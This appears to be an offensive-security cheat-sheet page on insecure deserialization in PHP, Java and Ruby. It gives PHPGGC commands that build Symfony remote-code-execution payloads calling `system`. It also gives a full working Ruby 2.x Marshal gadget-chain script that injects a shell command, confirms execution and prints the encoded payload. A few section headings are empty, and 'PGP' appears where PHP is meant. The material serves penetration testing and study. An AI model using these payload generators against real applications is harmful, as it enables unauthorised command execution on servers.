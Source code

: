 ```yaml
---
title: Insecure Deserialization
description: Insecure deserialization is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized objects in order to pass harmful data into the application code.
badge: Web
---
```



## PHP

### PHP's Serialized objects format

### PHPGGC

PGP Generic Gadget Chains (PHPGGC)

#### Installation

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

Simply clone the repo, build the image and tag it like you want:
```bash
docker build -t {{ image-tag phpggc }} "https://github.com/ambionics/phpggc.git#master"
```

</template>
<template v-slot:cli>

> PHP >= 5.6 is required to run PHPGGC.

```bash
git clone https://github.com/ambionics/phpggc.git phpgcc
```

The executable will be at `${PWD}/phpgcc/phpgcc`. It is advisable to add it to your path

</template>
</smart-tabs>

#### Usage

You can list the available gadgets with phpggc -l:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -l
```

</template>
<template v-slot:cli>

```bash
phpggc  -l
```

</template>
</smart-tabs>

Usually this gadget chains ask you to specify a function to be called and arguments. Typically you will be going for RCEs, so here is an example using the `system` function:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -b "Symfony/RCE4" "system" "{{ payload id }}" | clip.exe
```

</template>
<template v-slot:cli>

```bash
phpggc -b "Symfony/RCE4" "system" "{{ payload id }}" | clip.exe
```

</template>
</smart-tabs>

## Java

### Ysoserial

### Using custom gadget chains

If you got access to some source code, you might want to develop your own gadget chain. The following snippet can be used as an example of how to serialize and deserialize objects in Java:

```java[Main.java]
import data.Foo;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        Foo originalObject = new Foo("str", 123);

        String serializedObject = serialize(originalObject);
        System.out.println("Serialized object: " + serializedObject);

        Foo deserializedObject = deserialize(serializedObject);
        System.out.println("Deserialized data str: " + deserializedObject.str + ", num: " + deserializedObject.num);
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```


## Ruby

### Ruby 2.X deserialization RCE

Therre is a known gadget chain that achieves RCE on Ruby applications. The requsites are as follows:
1. The ActiveSupport gem **must** be installed and loaded.
2. ERB from the standard library **must** be loaded (_which Ruby does not load by default_).
3. After deserialization, a method that does not exist must be called on the deserialized object.

> While these pre-requisites will almost certainly be fulfilled in the context of any Ruby on Rails web application, they are rarely fulfilled by other Ruby applications.

```ruby[deserialzationRORexploit.rb]
#!/usr/bin/env ruby

class Gem::StubSpecification
	def initialize; end
end

stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|{{ payload whoami }} 1>&2")

puts "STEP n"
stub_specification.name rescue nil
puts

class Gem::Source::SpecificFile
	def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts

$dependency_list = Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts

class Gem::Requirement
	def marshal_dump
		[$dependency_list]
	end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts

puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
	pipe.print payload
	pipe.close_write
	puts pipe.gets
	puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts
require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```